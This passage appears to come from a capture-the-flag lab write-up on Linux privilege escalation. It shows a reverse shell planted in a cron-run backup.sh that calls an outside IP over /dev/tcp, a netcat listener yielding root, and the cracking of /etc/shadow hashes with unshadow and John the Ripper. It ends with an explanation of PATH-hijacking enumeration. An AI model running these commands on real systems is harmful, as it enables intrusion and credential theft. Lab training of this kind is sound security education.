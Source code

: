Now for the `backup.sh` file, change it to this.
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.8.180/8080 0>&1
```
Start the listener:
```bash
nc -lnvp 8080
root@ip-10-10-237-210:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-237-210:~# find / -name flag5.txt 2>/dev/null
/home/ubuntu/flag5.txt
```

To extract Matt's password, copy it's password hash from `/etc/shadow` and `/etc/passwd`. Then use `unshadow` tool
```bash
└─$ unshadow passwd.txt shadow.txt > hash.txt
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
└─$ john --show hash.txt                                     
matt:123456:1002:1002::/home/matt:/bin/sh
1 password hash cracked, 0 left
```

## Privilege Escalation: PATH

`PATH` is an environment variable that stores a list of directories. When you run a command like `ls` or `python`, Linux searches through the directories listed in `PATH` to find the executable for that command.

**What happens if a folder you can write to is in the PATH?**

If there is a folder in **$PATH** (e.g. `/tmp` or `.`) that you can write to, then:
- You can create a fake version of any command (like `ls`, or `cat`) in that writable folder.
- If a privileged user (like root) or a SUID binary relies on a command without specifying a full path, your fake script might get executed instead of the real one.

this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH? 
```bash
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
2. Does your current user have write privileges for any of these folders?

For each directory, check write permissions by using:  `ls -ld <directory>`. Look for the write permission indicator (`w`) in the output for 'others' or 'group' permissions.
```bash
$ ls -ld /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin /usr/games /usr/local/games /snap/bin
lrwxrwxrwx 1 root root     7 Oct 26  2020 /bin -> usr/bin
lrwxrwxrwx 1 root root     8 Oct 26  2020 /sbin -> usr/sbin
drwxr-xr-x 2 root root  4096 Oct 22  2021 /snap/bin
drwxr-xr-x 2 root root 28672 Oct 26  2020 /usr/bin
drwxr-xr-x 2 root root  4096 Apr 15  2020 /usr/games
drwxr-xr-x 2 root root  4096 Oct 26  2020 /usr/local/bin
drwxr-xr-x 2 root root  4096 Oct 26  2020 /usr/local/games
drwxr-xr-x 2 root root  4096 Oct 26  2020 /usr/local/sbin
drwxr-xr-x 2 root root 12288 Oct 26  2020 /usr/sbin

```
